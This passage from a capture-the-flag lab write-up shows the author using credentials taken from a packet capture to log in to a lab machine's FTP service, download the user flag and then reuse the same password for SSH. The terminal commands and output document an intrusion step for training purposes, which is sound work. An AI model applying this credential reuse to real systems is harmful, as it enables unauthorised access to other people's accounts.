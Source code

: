 
As I had found the username and password for the FTP session within the pcap file via Wireshark I decided to try it on the service.
```bash
┌──(eMVee@kali)-[~]
└─$ ftp 10.129.230.150
Connected to 10.129.230.150.
220 (vsFTPd 3.0.3)
Name (10.129.230.150:eMVee): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Oct 01 08:05 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (28.8510 kB/s)
ftp> exit
221 Goodbye.
```
 
By downloading the file to my machine I'm able to read the user.txt flag.
```bash
┌──(eMVee@kali)-[~]
└─$ cat user.txt                
#### SNIP THE USER FLAG ####
```
Okay the user flag is captured!

## Initial foothold
Since the user could logon to the FTP service, it could be probably used as well for the SSH service.

```bash
┌──(eMVee@kali)-[~]
└─$ ssh nathan@10.129.230.150       
nathan@10.129.230.150's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct  1 08:45:22 UTC 2021

  System load:  0.08              Processes:             227
  Usage of /:   36.7% of 8.73GB   Users logged in:       0
  Memory usage: 22%               IPv4 address for eth0: 10.129.230.150
  Swap usage:   0%

  => There are 4 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

```